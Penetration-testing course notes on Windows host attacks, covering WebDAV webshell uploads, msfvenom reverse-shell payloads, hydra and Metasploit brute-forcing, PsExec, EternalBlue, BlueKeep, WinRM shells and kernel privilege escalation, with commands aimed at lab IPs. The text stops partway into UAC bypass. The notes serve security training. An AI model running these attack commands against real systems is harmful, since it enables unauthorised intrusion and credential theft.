- [Host & Network Penetration Testing: System/Host Based Attacks](#host--network-penetration-testing-systemhost-based-attacks)
  - [Introduction](#introduction)
  - [Introduction to System/Host based Attacks](#introduction-to-systemhost-based-attacks)
- [Windows](#windows)
  - [Windows Vulnerabilities](#windows-vulnerabilities)
    - [Overview of Windows Vulnerabilities](#overview-of-windows-vulnerabilities)
    - [Frequently Exploited Windows Services](#frequently-exploited-windows-services)
  - [Exploiting Windows Vulnerabilities](#exploiting-windows-vulnerabilities)
    - [Exploiting Microsoft ISS WebDAV](#exploiting-microsoft-iss-webdav)
      - [Microsoft IIS](#microsoft-iis)
      - [WebDAV](#webdav)
      - [WebDAV Exploitation](#webdav-exploitation)
      - [Exploitation Tools](#exploitation-tools)
    - [Exploiting WebDAV With Metasploit](#exploiting-webdav-with-metasploit)
      - [Manual Way](#manual-way)
      - [Automated Way](#automated-way)
    - [Exploiting SMB With PsExec](#exploiting-smb-with-psexec)
      - [SMB](#smb)
      - [SMB Authentication](#smb-authentication)
      - [PsExec](#psexec)
      - [SMB Exploitation With PsExec](#smb-exploitation-with-psexec)
    - [Exploiting Windows MS17-010 SMB Vulnerability (Eternal Blue)](#exploiting-windows-ms17-010-smb-vulnerability-eternal-blue)
      - [EternalBlue](#eternalblue)
      - [Recon EternalBlue](#recon-eternalblue)
      - [Manually Exploiting EternalBlue](#manually-exploiting-eternalblue)
      - [Automatic Exploiting EternalBlue](#automatic-exploiting-eternalblue)
    - [Exploiting RDP](#exploiting-rdp)
    - [Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)](#exploiting-windows-cve-2019-0708-rdp-vulnerability-bluekeep)
      - [BlueKeep](#bluekeep)
      - [BlueKeep Exploit](#bluekeep-exploit)
    - [Exploiting WinRM](#exploiting-winrm)
  - [Windows Privilege Escalation](#windows-privilege-escalation)
    - [Windows Kernel Exploitation](#windows-kernel-exploitation)
      - [Privilege Escalation](#privilege-escalation)
      - [Windows Kernel](#windows-kernel)
      - [Windows Kernel Exploitation](#windows-kernel-exploitation-1)
      - [Tools & Environment](#tools--environment)
    - [Bypassing UAC with UACMe](#bypassing-uac-with-uacme)
      - [UAC](#uac)
      - [Bypassing UAC](#bypassing-uac)
      - [Bypassing UAC With UACMe](#bypassing-uac-with-uacme-1)
    - [Access Token Impersonation](#access-token-impersonation)
      - [Windows Access Tokens](#windows-access-tokens)
      - [Windows Privileges](#windows-privileges)
      - [The Incognito Module](#the-incognito-module)
  - [Windows File System Vulnerabilities](#windows-file-system-vulnerabilities)
    - [Alternate Data Streams](#alternate-data-streams)
  - [Windows Credential Dumping](#windows-credential-dumping)
    - [Windows Password Hashes](#windows-password-hashes)
      - [SAM Database](#sam-database)
      - [LM (LanMan)](#lm-lanman)
      - [NTLM (NTHash)](#ntlm-nthash)
    - [Searching For Passwords In Windows Configuration Files](#searching-for-passwords-in-windows-configuration-files)
      - [Windows Configuration Files](#windows-configuration-files)
      - [Unattended Windows Setup](#unattended-windows-setup)
    - [Dumping Hashes With Mimikatz](#dumping-hashes-with-mimikatz)
      - [Mimikatz](#mimikatz)
    - [Pass-The-Hash Attacks](#pass-the-hash-attacks)
      - [Pass-the-Hash](#pass-the-hash)
- [Linux](#linux)
  - [Linux Vulnerabilities](#linux-vulnerabilities)
    - [Frequently Exploited Linux Services](#frequently-exploited-linux-services)
  - [Exploiting Linux Vulnerabilities](#exploiting-linux-vulnerabilities)
    - [Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)](#exploiting-bash-cve-2014-6271-vulnerability-shellshock)
      - [CVE-2014-6271 - Shellshock](#cve-2014-6271---shellshock)
      - [Shellshock Exploitation](#shellshock-exploitation)
    - [Exploiting FTP](#exploiting-ftp)
      - [Exploiting FTP](#exploiting-ftp-1)
    - [Exploiting SSH](#exploiting-ssh)
    - [Exploiting SAMBA](#exploiting-samba)
  - [Linux Privilege Escalations](#linux-privilege-escalations)
    - [Linux Kernel Exploits](#linux-kernel-exploits)
      - [Tools](#tools)
    - [Exploiting Misconfigured Cron Jobs](#exploiting-misconfigured-cron-jobs)
      - [Cron Job](#cron-job)
      - [Exploiting Cron Job](#exploiting-cron-job)
    - [Exploiting SUID Binaries](#exploiting-suid-binaries)
  - [Linux Credential Dumping](#linux-credential-dumping)
    - [Dumping Linux Password Hashes](#dumping-linux-password-hashes)
      - [Linux Password Hashes](#linux-password-hashes)
- [Conclusion](#conclusion)

# Host & Network Penetration Testing: System/Host Based Attacks #

## Introduction ##

***Topic Overview***:
+ Introduction To System/Host Based Attacks
+ Overview of Windows Vulnerabilities 
+ Exploiting Windows Vulnerabilities 
+ Windows Privilege Escalation 
+ Windows File System Vulnerabilities 
+ Windows Credential Dumping 
+ Windows Lateral Movement 
+ Overview of Linux Vulnerabilities 
+ Exploiting Linux Vulnerabilities 
+ Linux Privilege Escalation 
+ Linux File System Vulnerabilities 
+ Linux Credential Dumping 

***Learning Objectives***:
+ understand various vulnerabilities affecting both Windows & Linux
+ Will be able to identify exploit vulnerabilities on Windows & Linux systems
+ Get an understanding of how to perform privilege escalation on both Windows & Linux systems
+ Identify and exploit file system vulnerabilities on Windows & Linux 
+ Understand how credentials are stored on both Windows & Linux systems and how password hashes can be dumped 

## Introduction to System/Host based Attacks ##

***What Are System/Host Based Attacks:***
+ System/Host based attacks are attacks that are targeted toward a specific system or host running a specific OS (Windows, Linux, etc)
+ Network services are not the only attack vector that can be targeted during a penetration test
+ System/Host based attacks usually come in to play after you have gained access to a target network, where you are now required to exploit servers, workstations, laptops on the internal network 

***System/Host Based Attacks:***
+ Focuses on inherent vulnerabilities on the OS
+ Much more specialized 
+ Exploit misconfigurations on inherent vulnerabilities 
+ Will focus on Windows and Linux 
+ Will also need to do privilege escalation, move throughs the network, etc

# Windows #

## Windows Vulnerabilities ##

### Overview of Windows Vulnerabilities ###

***History of Windows Vulnerabilities:***
+ Microsoft Windows is the dominant OS worldwide with a market share of >=70% as of 2021
+ So popular that it gives attackers a bigger threat surface
+ Over the last 15 years, windows has had a lot of vulnerabilities, such as Eternal Blue of Conflicker 
+ So popular that the exploits can be gotten with publicly available sources 

***Windows Vulnerabilities*:** 
+ There are various windows OS, so it is a fragmented attack surface 
+ All windows OS share a likeness given the development model and **philosophy** 
  + Windows OS have been developed in the C programming language, making them vulnerable to buffer overflow, arbitrary code execution, etc
  + By default, Windows is not configured to run securely and require a proactive implementation of security patches
  + Newly discovered vulnerabilities are not immediately patched by Microsoft, since there are so many OS's, many systems are left unpatched 

+ The frequent releases of new versions of Windows is also contributing factor to exploitation, takes a awhile to make upgrades, older versions will have an increasing number of vulnerabilities 
+ Windows is also vulnerable to cross platform vulnerability, for example SQL injection attacks
+ Also vulnerable to physical attacks: theft, malicious peripheral devices, etc

***Types of Windows Vulnerabilities***: 
+ **Information Disclosure** 
  + allows an attacker to access confidential data 
+ **Buffer overflow**
  + Programming error, allows attacker to write data to a buffer and overrun the allocated buffer, writing data to allocated memory addresses for other applications
+ **Remote Code Execution**
  + Can run code on the target system remotely 
+ **Privilege escalation** 
  + Allows an attacker to elevate their privileges after initial compromise 
+ **Denial of Services (DOS)**
  + Allows attacker to consume system/host resources (CPU, RAN, Network, etc), preventing it from functioning normally 

### Frequently Exploited Windows Services ###

+ Microsoft Windows has various native services and protocols can be configures to run on a host
+ These services provide an attacker a attack vector 
+ Should understand these services, how they work, and potential vulnerabilities is very important

Table of frequently Exploited Windows Services 

+ <g>ISS</g> is a web server software 
  + can host applications, lots of potential
+ <g>WebDAV</g> is an HTTP extension 
  + Used to enable ***file server*** functionality to a web server like ISS
+ <g>SMB/CIFS</g> Network File Share
  + Can run on top of Netbios
  + Share files and peripherals 
  + Example: can connect windows systems to share files, folders, printers, etc
+ <g>RDP</g>
  + Can remotely access a windows system, disabled by default, usually need credentials but after will have a GUI and can control the system
+ <g>WinRM</g> Remote Management Protocol
  + Less familiar, allows commands to be executed on a windows system remotely, regardless of what network you are on 

## Exploiting Windows Vulnerabilities ##

### Exploiting Microsoft ISS WebDAV ###

#### Microsoft IIS ####
+ IIS (`Internet Information Services`) to a proprietary web server software developed my Microsoft for windows
+ Can be used to host websites/web apps, and provides administrators with a robust GUI
+ IIS can be used to host both static and dynamic web pages developed in `ASP.NET` and `PHP`
+ Typically configured to run on port 80/443
+ Supports executable file extensions:
  + .asp
  + .aspx
  + .config
  + .php

#### WebDAV ####
+ WebDAV (`Web-based Distributed Authoring and Versioning`) is a set of extension to the HTTP protocol
  + allows users to collaboratively edit and manage files on remote servers
+ Enables web server to function as a file server 
+ WebDAV runs on top of Microsoft ISS on port 80/443
+ In order to connect to a WebDAV server, will need legitimate credentials
  + authenticate in the form of username and password

#### WebDAV Exploitation ####
+ First step is to identify whether WebDAV has been configured to run on the IIS web server
+ Can perform a brute-force attack on the WebDAV server in order to get legitimate credentials that can be used for authentication 
+ After obtaining legitimate credentials, can authenticate with WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell

#### Exploitation Tools ####
+ <r>`davtest`</r> - Used to scan, authenticate and exploit a WebDAV server
  + pre-installed on Kali, and Parrot OS
  + Can test the DAV connection with the following `-url`:
    + `davtest -url http://10.3.18.171/webdav/`
    + Will say if it is open or not and say if it was able to get in 
  + Can specify credentials with the following `-auth`:
    + `davtest -auth bob:password_123321 -url http://10.3.18.171/webdav/`
    + Will test if it can create a directory with a random string
    + Will attempt to upload various types of files
    + Check for <b>text file execution</b>, can potentially execute a payload if something is available like `asp`
+ <r>`cadaver`</r> - supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV server
  + Pre-installed on Kali and Parrot IS
  + Can connect using the following `cadaver command`:
    + `cadaver http://10.3.18.17/webdav/`
      + will need to give username and password
    + Will be given a sudo shell to interact with the WebDAVServer
  + Can get a WebShell in kali linux with the following command:
    + `ls -al /usr/share/webshells/`
      + can see which one is best with this, for example an `asp` web-shell 
  + On `cadaver` can upload the web-shell with the following:
    + `put /usr/share/webshells/asp/webshell.asp` 
      + uploads the file, can even see it was uploaded from the browser
      + Can also `execute` it from the browser, will now be able to execute commands on the target system 
    + On <b>Windows</b> remember that `ls` is `dir`
      + can list the C drive with: `dir C:\`
    + Also remember on <b>Windows</b> that `cat` is `type`

<o>--script=http-enum</o>
+ nmap scan to get information about the Http servers, including if WebDAV is running 
+ Example: `nmap -sV -p 80 10.3.18.171 --script=http-enum`
  + will often have the WebDAV directory as `/webdav/`
  + will also often say if you get a 401 unauthorized, meaning WebDAV needs credentials 

<pu>hydra</pu> can be used to brute force the credentials 
+ Example: `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.18.171 http-get /webdav/`
  + Where both the username and password is brute-force
  + `-L` to specify user list
  + `-P` to specify password list
  + the directory `/webdav/` will be gotten with a http-get and provided credentials 

### Exploiting WebDAV With Metasploit ###


#### Manual Way ####
<r>`msfvenom`</r>
+ Can be used to generate a payload to get a meterpreter session, which is an advance reverse shell (upload/download files)
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=USERIP LPORT=1234 -f asp > shell.asp`
  + payload is specified with '-p'
  + 'LHOST' is our computer 
  + 'LHOST' is the port we will listen with 
  + `-f` is to specify file type
  + `>` sends it to the file with the specified name

Can now use <r>`cadaver`</r> to send the payload
+ To get webdav sudo shell:
  + Example: `cadaver http://10.3.22.26/webdav`
  + Will also need to put username and password
+ Now can upload the payload: 
  + Example: `put /root/shell.asp`

Now need to set up a `listener` or `handler` to listen for out payload reaching out to us when we run it

Will first set up the postgresql service because metasploit needs it 
+ `service postgresql start && msfconsole`

Then will set up the handler:
+ `use multi/handler`
+ `set payload windows/meterpreter/reverse_tcp`
+ `set LHOST 10.1.0.9` (our IP)
+ `set LPORT 1234` (based on what we put in the payload)

Once your in
+ Can confirm it started with `sysinfo`
+ Can check privileges with `getuid`

#### Automated Way ####

Can use <r>`msfconsole`</r> to automate this process 
+ will `search iis upload`
  + and `use exploit/windows/iis/iis_webdav_upload_asp`
  + Will give us a meterpreter session automatically, with the following options set
    + `set HttpUsername bob`
    + `set HttpPassword password_123321`
    + `set RHOSTS 10.3.22.26` (target IP)
    + `set PATH /webdav/metasploit.asp` (webdav directory is where it is hosted and the name is set for the asp file)
    + Can now run/exploit 
+ Will automatically delete the payload, and will be given a meterpreter session
+ can also delete with <r>`cadaver`</r>

### Exploiting SMB With PsExec ###

#### SMB ####
+ SMB (`Server Message Block`) is a network file sharing protocol used to share files and peripherals (printers and serial ports) between computers on a LAN
+ SMB used TCP port 445, originally SMB ran on top of NetBIOS using port 139
+ `SAMBA` is the open source Linux implementation of SMB, allows Windows systems to access Linux shares and drives

#### SMB Authentication ####
+ SMB protocol utilizes two levels of authentication 
  + User Authentication 
  + Share Authentication 
+ `User authentication` - Users must provide a username and password in order to authenticate with the SMB server in order to access a share 
+ `Share authentication` - Users must provide a password in order to access restricted share 

<r>Note: </r> Both of the authentication levels utilize a <r>challenge response authentication system</r>



#### PsExec ####
+ PsExec is a lightweight telnet-replacement developed by Microsoft that allows you to execute processes on remote Windows system using any user's credentials 
+ PsExec authentication is performed via SMB
+ Can use PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt 
+ Very similar to RDP, but controlled via CMD

#### SMB Exploitation With PsExec ####
+ In order to utilize PsExec to gain access to a Windows target, will need to identify legitimate user accounts and their respective passwords or password hashes 
+ Can be done by leveraging various tools and techniques, though most common will involve an SMB login brute-force attack 
+ Can narrow down our brute-force attack to only include common windows user accounts like:
  + `Administrator` 
+ After we have obtained a legitimate user account and password, we use the credentials to authenticate via PsExec and execute arbitrary system commands or obtain a reverse shell

Can use <r>msfconsole</r> to automate the attack
+ will want to launch with `service postgresql start && msfconsole`
  + because msfconsole uses a database that runs with postgresql 

Then will <r>search smb_login</r>
+ or `use auxiliary/scanner/smb/smb_login`
  + `set RHOSTS 10.3.19.6`
  + `set USER_FILE set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt` (Because we are brute forcing)
  + `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt` (Because we are brute forcing)
  + `set VERBOSE false` (to only show successful logins)

<o>psexec</o> is a windows utility so can not use it on a linux system 
+ will need to use <o>`psexec.py`</o> instead so a python script can do it 
+ Can run with `psexec.py Administrator@10.3.19.6 cmd.exe`
  + where are using the username: `Administrator`
  + The IP is the target 
  + and `cmd.exe` is executed because the goal is CLI access 
  + will ask you for the `password`
+ It will then have CLI access 
  + can use `whoami` to see privilege level 

to get a <r>meterpreter</r> session, can use <r>`msfconsole`</r>
+ can `search psexec` or `use exploit/windows/smb/psexec`
  + <r>NOTE: THIS IS RUNNING A MALICIOUS FILE ON THE TARGET SYSTEM UNLIKE THE PREVIOUS EXPLOIT, BE CAREFUL OF ANTI VIRUS</r>
  + `set RHOSTS 10.3.19.6`
  + `set SMBUser Administrator` (where the username was got with brute-force)
  + `set SMBPass qwertyuiop` (where the password was got with brute-force)

### Exploiting Windows MS17-010 SMB Vulnerability (Eternal Blue) ###

#### EternalBlue ####
+ EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerability and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is apart of
+ EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability
  + it was leaked to the public by a hacker group called the ***Shadow Brokers*** in 2017
+ EternalBlue takes advantage of a vulnerability in the Windows <o>SMBv1</o> protocol that allows attackers to send specially crafted packets that allow arbitrary commands 
  + can get a ***reverse shell*** or ***meterpreter*** 
  + Will also provide elevated access, no need for privilege escalation

+ EternalBlue exploit was used in the WannaCry ransomware attack in June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible 
  + Eternal blue would scan other computers on the network and spread the ***WannaCry*** 
+ The vulnerability affects multiple versions of Windows:
  + Windows Vista
  + Windows 7
  + Windows server 2008
  + Windows 8.1
  + Windows server 2021
  + Windows 10
  + Windows server 2016

+ Microsoft released a patch for the vulnerability in March 2017, however, many users and companies have yet to patch the system
+ The EternalBlue exploit has a <r>MSF</r> auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems
+ The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system
+ In addition to the MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code

<g>AutoBlue-MS17-010</g> is the exploit script on github

#### Recon EternalBlue ####
+ will first do some recon
  + `sudo nmap -sV -p 445 -O IP`
    + Can see that SMB is running and it is windows server 2008, which is vulnerable 
+ Can also use an nmap script, <o>--script smb-vuln-ms17010</o> to see if it is vulnerable 
  + Will tell us the risk and that it is running SMBv1

#### Manually Exploiting EternalBlue ####

Will go to the github <g>AutoBlue-MS17-010</g>
+ Clone the repository 
+ The exploit py file will have multiple versions
+ There will also be a text file with dependencies 
  + can install with `pip install -r requirements.txt`
+ first generate the shell code with:
  + ./shell_prep.sh
  + can generate reverse shell with msfvenom 
    + will have information requirements (LHOST, LPORT, etc)
+ Can now start a <g>netcat</g> listener 
  +  `nc -nvlp 1234` where 1234 was the port specified in the shell code
+ Then can run the exploit
  + make a file executable with `chmod +x FILENAME.py`
  + Then can run with `python3 eternalblue_exploit.py TARGET_IP shellcode/sc_x64.bin` (or whatever shell code is being used)
+ Now have a command shell 

#### Automatic Exploiting EternalBlue ####
+ Open <r>msfconsole</r>
  + `search eternalblue`
    + will have an option of a scanner or an exploit 
  + `show options`
  + `set RHOSTS IP`
  + `run`
+ Now has the meterpreter session very quickly 

### Exploiting RDP ###

+ TheRemoteDesktopProtocol(RDP)is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
+ RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
  + Must be aware that they may move it to another port 
+ RDP authentication requires a legitimate user account on the target system as well as the user’s password in clear-text.
+ We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

<r>msfconsole</r> has a good RDP scanner to verify if a port is running RDP
+ can `search rdp_scanner` or `use auxiliary/scanner/rdp/rdp_scanner`
  + `set RHOSTS IP`
  + `set RPORT PORT_NUMBER`
+ Will say if it is running and some version information 

Then, <pu>hydra</pu> can be used to do a brute force
+ `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.3.25.177 -s 3333`
  + notice that the port is specified with `-s` because it is not on its tradition 3389
  + can also use the `-t` to limit the speed 

Once the credentials are discovered, can now use <o>xfreerdp</o> to connect 
+ in the CLI, `xfreerdp /u:administrator /p:qwertyuiop /v:10.3.25.177:3333`

### Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep) ###

Have previously used a brute-force attack, will now learn an inherent vulnerability 

#### BlueKeep ####
+ BlueKeep is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network 
+ Made public by Microsoft in May 2019
+ BlueKeep takes advantage of a vulnerability in the Windows RDP protocol that allows attackers to gain access to a chunk of kernel memory, allowing them to remotely execute arbitrary code at the system level without authentication 
  + Kernel is privileged, but can easily cause crashes 
+ A patch was released on May 14th, 2019
+ At the time of discovery, about 1 million systems worldwide were found to be vulnerable 
+ The BlueKeep vulnerability affects multiple versions of Windows:
  + XP
  + Vista
  + Windows 7
  + Windows Server 2008 & R2

#### BlueKeep Exploit ####
+ The BlueKeep vulnerability has various illegitimate PoC's and exploit code that could be malicious in nature
  + Should only utilize verified exploit code and modules for exploitation
+ BlueKeep has an MSF auxiliary module that can check if a target system is vulnerable, also has an exploit module
+ BlueKeep exploit module can be used to exploit vulnerable Windows systems and get a privileged meterpreter session

<r>Note: Targeting Kernel space memory and application can cause system crashes</r>

Will use <r>msfconsole</r> for scanning and exploitation 
+ can `search BlueKeep` 
  + will see the scanner and the exploit 
+ Scanner really only needs `RHOSTS`
+ Same for Exploit, but will need to specify the target type 
  + `show target`
  + select the type 

### Exploiting WinRM ###

+ `Windows Remote Management` (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S)
+ Microsoft implemented WinRM in to Windows in order to make life easier for system admins
+ WinRM is typically used in the following ways:
  + Remotely access and interact with Windows hosts on a local network 
  + Remotely access and execute commands on Windows systems
  + Manage and configure Windows systems remotely 
+ WinRM typically uses TCP port 5985 and 5986 (HTTPS)
+ WinRM implements access control and security for communication between systems through various forms of authentication 
+ We can utilize a utility called <r>"crackmapexec"</r> to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system 
+ Can also utilize a ruby script called <r>"evil-winrm"</r> to obtain a command shell session on the target system

When doing recon on a system with <o>nmap</o>:
+ Port 5985 and 5986 are not apart of the default ports scan 
  + Will have to use `-p-` or `-p 5985,5986`
+ Also the banner displayed under version is usually wrong, as WinRM does not provide a banner

Now that the system was found to be vulnerable, can use <r>crackmapexec</r> from the CLI to brute-force 
+ to attack winrm: `crackmapexec winrm TARGET_IP -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

Can now use <r>crackmapexec</r> to execute a command following the `-x`
+ Example: `crackmapexec winrm 10.3.17.184 -u administrator -p tinkerbell -x "whoami`
  + A good command for this is `systeminfo`

To get a shell, will use <r>evil-winrm</r>
+ Example: `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.3.17.184`

Can get a meterpreter session with <r>msfconsole</r>
+ Will `search winrm_script_exec` and use the exploit
  + need to specify `RHOSTS`
  + can also `set FORCE_VBS true`
  + `set USERNAME user`
  + `set PASSWORD password`

## Windows Privilege Escalation ##

### Windows Kernel Exploitation ###

#### Privilege Escalation ####
+ The process of exploiting vulnerabilities or misconfiguration in systems to elevate privileges from one user to another
  + typically to a user with administrative or root access on a system
+ Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall success of penetration test
+ After gaining an initial foothold on a target system, will need to elevate privileges
+ Developing privilege escalation skills will mark you out as a good penetration tester  

#### Windows Kernel ####
+ A Kernel is a computer program that is the **core** of an OS and has complete control over every resource and hardware on a system 
  + Acts as a translation between hardware and software, facilitates the communication between these two layers 
+ Windows NT is the kernel that comes pre-packages with all versions of Microsoft Windows and operates as a tradition kernel with a few exceptions based on user design 
  + It consists of two main modes of operation that determine access to system resources and hardware
    + ***User Mode*** - Programs and services running in user mode have limited access to system resources and functionality 
    + ***Kernel Mode*** - Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory

#### Windows Kernel Exploitation ####
+ Kernel exploits on Windows will typically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell
+ This process differs based on the version of Windows being targeted and the kernel exploit being used
+ Privilege escalation on Windows systems will typically follow the following methodology:
  + Identify kernel vulnerabilities 
  + Downloading, compiling and transferring kernel exploits onto the target system 

#### Tools & Environment ####
+ `Windows-Exploit-Suggester` - This tool compares a target patch level against the Microsoft vulnerability database in order to detect potential missing patches on the target 
  + Also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins 
  + Github: https://github.com/AonCyberLabs/Windows-Exploit-Suggester
+ `Windows-Kernel-Exploit` - Collection of Windows Kernel exploits by CVE
  + Github: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135

With a <r>meterpreter</r> shell, can use in house `getsystem` command to try and elevate privileges
+ can also use `local_exploit_suggester`
  + just specify the session, and hit run 
  + Will show all exploit modules that can be used to exploit privileges 
  + Will need to research to make sure the exploit will apply and is safe 
  + Can check if it works with `getuid`

<o>Windows-Exploit-Suggester</o> requires that you create a text file with the output of `systeminfo` command in a txt file
+ Will navigate to the github clone, and run `./windows-exploit-suggester.py --update` to get the most recent Microsoft database 
+ Then to run it: `./windows-exploit-suggester.py --database MOST_RECENT_DB.xls --systeminfo SYSTEMINFOFILE.txt`
+ Will then enumerate possible exploits, where the ones at the top are the most likely to work 
  + Can the look up the MS number and go to the Github ***SecWiki***

<o>Windows-Kernel-Exploit</o> Github will contain the exploits as well as the c code that can be compiled and run 
+ can transfer the .exe to the system and run it 
+ Will wanna use the Temp directory as it is not frequently accessed 
  + <r>Note: Anti-virus might catch it!</r> 
+ Can run `whoami` and see if it worked

### Bypassing UAC with UACMe ###

#### UAC ####

+ `User Account Control` (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the OS
+ UAC is used to ensure that changes to the OS require approval from the admin or a user account that is part of the local admin group
+ A non-privileged user attempting to execute a program with elevate privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt 
+ Attacks can bypass UAC in order to execute malicious executable with elevated privileges 

#### Bypassing UAC ####
+ In order to successfully bypass UAC, will need to have access to a user account that is part of the local admins group on the Windows target system 
+ UAC allows a program to be executed with admin privileges, consequently prompting the user for confirmation 
